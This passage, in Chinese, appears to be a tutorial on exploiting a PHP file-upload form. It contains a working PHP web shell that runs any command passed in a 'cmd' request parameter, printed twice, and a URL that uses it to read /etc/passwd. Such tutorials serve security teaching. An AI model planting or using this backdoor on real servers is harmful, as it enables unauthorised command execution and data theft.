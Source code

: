 该表单使用`POST`方法，并将`enctype`属性设置为`"multipart/form-data"`，以允许文件上传。在表单提交时，服务器执行我们发送的文件。

这很简单，但在继续之前，让我们通过在终端上键入以下命令来创建一个名为“uploads”的目录:

```
mkdir uploads
```

现在我们可以用下面的命令执行简单的 PHP 服务器:

```
php -S 0.0.0.0:8000 -t .
```

最后，这是在我们的浏览器中输入`http://<TARGET_IP>:8000`的结果

![](img/11093180913db6459a9b8db49c101822.png)

现在，您可以寻找一个后门，或者自己创建一个，我将使用此地址中的一个，代码如下:

```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?><?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; } ?>
```

所以让我们把它和表单一起上传，之后，它就在“uploads”文件夹里面了，这样我们就可以通过键入这样的 URL 来执行 cat 或任何我们想要的东西了:

`[http://192.168.1.110:8000/?file=uploads/payload.php&cmd=cat%20/etc/passwd](http://192.168.1.110:8000/?file=uploads/payload.php&cmd=cat%20/etc/passwd)`

在这种情况下，它会提示/etc/passwd 的内容。

![](img/c6d5ccc1338e97e4567ac7f20e8c9cd8.png)
